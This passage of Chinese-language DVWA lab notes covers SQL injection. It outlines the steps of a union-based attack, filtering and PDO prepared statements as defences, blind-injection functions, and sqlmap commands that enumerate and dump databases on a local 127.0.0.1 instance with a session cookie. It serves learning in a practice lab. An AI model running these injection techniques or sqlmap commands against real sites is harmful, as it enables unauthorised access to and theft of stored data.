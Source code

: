1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解SQL查询语句中的字段数；
3. 确定显示的字段顺序；
4. 获取当前数据库；
5. 获取数据库中的表；
6. 获取表中的字段名；
7. 下载数据。

当开发者需要防御 SQL 注入攻击时，可以采用以下方法。

1. **过滤危险字符**：可以使用正则表达式匹配各种 SQL 子句，例如 select,union,where 等，如果匹配到则退出程序。
2. **使用预编译语句**：PDO 提供了一个数据访问抽象层，这意味着不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。使用 PDO 预编译语句应该使用占位符进行数据库的操作，而不是直接将变量拼接进去。

##  SQL Injection Blind（SQL盲注）

> 布尔盲注：**bool 盲注**是在不知道 SQL 查询的返回值，但是知道查询是否成功的情况下，猜测数据库中的敏感信息的手法。
>
> 时间盲注： 提交对执行时间敏感的函数sql语句，或者使用if语句，通过执行时间的长短来判断是否执行成功，比如:正确的话会导致时间很长，错误的话会导致执行时间很短。
>
> 经常使用的函数

```sql
mid(str,start,length)  :字符串截取
ORD()    ascii         :转换成ascii码
Length()               :统计长度
version()              :查看数据库版本
database()             :查看当前数据库名
user()                 :查看当前用户

Sleep()                           :延迟函数
If(condition,true,false)          :条件语句
```

### low

#### 使用sqlmap

```sqlmap
# 1.查询是否存在注入点
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit"
# 2.检测站点包含哪些数据库
-dbs
# 3.获取当前数据库名
-current-db
# 4.获取指定数据库中的表名
-tables -D 'db_name'
# 5.获取表中的字段
-columns -T 'table_name' -D 'db_name'
# 6.获取字段的内容
–dump -C “columns_name” -T “table_name” -D “db_name” 
```

```sql
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=95olg0v4v82ig83g1uv5kkscq2" --batch
```

